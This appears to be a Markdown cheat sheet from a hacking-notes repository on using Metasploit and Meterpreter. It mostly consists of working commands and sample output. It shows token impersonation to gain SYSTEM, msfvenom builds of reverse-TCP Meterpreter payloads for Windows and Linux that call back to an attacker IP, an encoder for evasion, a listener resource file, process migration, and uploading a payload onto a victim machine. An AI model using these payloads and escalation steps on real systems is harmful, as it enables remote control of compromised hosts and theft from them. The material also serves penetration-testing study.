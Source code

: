```yaml
---
title: Metasploit / Meterpreter
description: How to use metasploit and meterpreter with examples.
---
```


# Metasploit / Meterpreter

## Modules

List of modules :

- **espia :**
- [incognito](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/) : Allow you to impersonate user tokens.
- **lanattacks**
- **powershell :** Enable powershell (interactive shell, single command, ...).
- **python**
- **stdapi**
- **winpmem**
- **extapi**
- **kiwi**
- **peinjector**
- **priv**
- **sniffer**
- **unhook**

### Incognito

```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
[...]
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Powershell

```
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell

PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
[...]
```

## Msfvenom

```bash
# Windows (EXE)
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.9.52.138 LPORT=9001 \
	-f exe -o shell.exe

# Windows (x86 EXE with encoder)
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai \
	LHOST=10.9.52.138 LPORT=9001 -f exe -o shell.exe

# Linux (ELF)
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.9.52.138 LPORT=9001 \
	-f elf -o shell.bin
```

## Ressource file

File `msf.rc` :

```
use exploit/multi/handler
set LHOST tun0
set LPORT 9001
set payload windows/x64/meterpreter_reverse_tcp
run
```

Command : `msfconsole -r msf.rc`

## Migrate on process

More information about the [migrate](https://www.hackingarticles.in/metasploit-for-pentester-migrate/) command.

Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions.

```
meterpreter > ps | grep services
Filtering on 'services'

Process List
============

 PID  PPID  Name          Arch  Session  User                 Path
 ---  ----  ----          ----  -------  ----                 ----
 668  580   services.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\services.exe

meterpreter > migrate 668
[*] Migrating from 996 to 668...
[*] Migration completed successfully.
```

## Search for files

```
meterpreter > search -f shell.exe
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
c:\Users\bruce\Desktop\shell.exe  73802         2021-12-11 12:20:17 +0100
```

## Upload / Download

```
meterpreter > download shell.exe
[*] Downloading: shell.exe -> /home/.../alfred/shell.exe
[*] Downloaded 72.07 KiB of 72.07 KiB (100.0%): shell.exe -> /home/.../alfred/shell.exe
[*] download   : shell.exe -> /home/.../alfred/shell.exe

meterpreter > upload shell.exe 'c:\Users\bruce\Desktop\reverse.exe'
[*] uploading  : /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
[*] uploaded   : /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
```
